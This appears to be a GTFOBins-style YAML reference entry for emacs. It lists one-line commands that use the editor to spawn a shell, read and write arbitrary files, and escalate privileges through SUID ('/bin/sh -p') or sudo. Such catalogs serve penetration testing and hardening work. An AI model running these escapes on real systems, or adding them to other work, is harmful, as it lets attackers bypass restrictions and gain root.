 functions:
  shell:
    - code: emacs -Q -nw --eval '(term "/bin/sh")'
  file-write:
    - code: |
        emacs file_to_write
        DATA
        C-x C-s
  file-read:
    - code: emacs file_to_read
  suid:
    - code: ./emacs -Q -nw --eval '(term "/bin/sh -p")'
  sudo:
    - code: sudo emacs -Q -nw --eval '(term "/bin/sh")'
---
